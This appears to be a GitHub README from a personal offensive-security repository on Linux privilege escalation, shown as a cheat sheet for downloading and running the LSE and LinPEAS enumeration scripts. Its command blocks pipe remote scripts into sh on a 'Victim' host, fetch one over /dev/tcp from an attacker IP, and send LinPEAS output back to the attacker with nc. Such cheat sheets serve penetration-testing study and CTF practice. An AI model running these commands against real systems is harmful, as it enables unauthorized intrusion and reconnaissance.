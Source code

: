 > בס״ד
<div align="center">

<h2 align="center"><a href="https://github.com/Anlominus">⚜️ Aภl๏miuภuຮ ⚜️</a></h2>

<img align="center" width="100" src="https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png">

⫷ [**`HacKingPro`**](https://github.com/Anlominus/HacKingPro) ⫸
<br>
⫷ [**`TryHackMe`**](https://github.com/Anlominus/TryHackMe) | [**`KoTH`**](https://github.com/Anlominus/TryHackMe/tree/main/King%20of%20the%20Hill/KoTH) ⫸ 
<br>
⫷ [**`ScanPro`**](https://github.com/Anlominus/ScanPro) | [**`Linfo`**](https://github.com/Anlominus/Linfo) | [**`Diablo`**](https://github.com/Anlominus/Diablo) ⫸ 
<br>
⫷ [**`Offensive-Security`**](https://github.com/Anlominus/Offensive-Security) | [**`PenTest`**](https://github.com/Anlominus/PenTest) ⫸
<br>
⫷ [**`Goals`**](https://github.com/Anlominus/Goals) | [**`Studies`**](https://github.com/Anlominus/Studies) | [**`HacKing`**](https://github.com/Anlominus/HacKing) | [**`AnyTeam`**](https://github.com/Anlominus/AnyTeam) ⫸
<br>

</div>
  
---
  
<div align="center">

# [`Privilege-Escalation`](https://github.com/Anlominus/Privilege-Escalation) ~> [`Linux-PrivEsc`](https://github.com/Anlominus/Linux-PrivEsc)
[**`Tools`**](https://github.com/Anlominus/Linux-PrivEsc/tree/main/GiTools#linux-privesc--gitools) | [**`Cheat Sheets`**](https://github.com/Anlominus/Linux-PrivEsc/tree/main/Cheat%20Sheets#linux-privesc--cheat-sheets) | [`Notes`](./Notes)  | [`Checklists`](./Checklists)
  
---

## Linux Enumeration 
  
### LSE
```shell
wget https://raw.githubusercontent.com/Anlominus/HacKingPro/main/Menu/14--Privilege%20Enumeration%20%26%20Escalation/lse.sh; chmod 777 lse.sh
```
### LinPEAS
```shell
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh; chmod 777 linpeas.sh
```  
> ![image](https://user-images.githubusercontent.com/51442719/173901910-757fa5d0-0d72-4d2e-9df5-da64a886bc28.png)
> **LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**
> ```bash
> # From github
> curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
> ```
</div>
  
> ```bash
> # Local network
> sudo python -m SimpleHTTPServer 80 #Host
> curl 10.10.10.10/linpeas.sh | sh #Victim
> 
> # Without curl
> sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
> cat < /dev/tcp/10.10.10.10/80 | sh #Victim
> 
> # Excute from memory and send output back to the host
> nc -lvnp 9002 | tee linpeas.out #Host
> curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
> ```

> ```bash
> # Output to file
> ./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
> less -r /dev/shm/linpeas.txt #Read with colors
> ```

> ```bash
> # Use a linpeas binary
> wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
> chmod +x linpeas_linux_amd64
> ./linpeas_linux_amd64
> ```

</div>

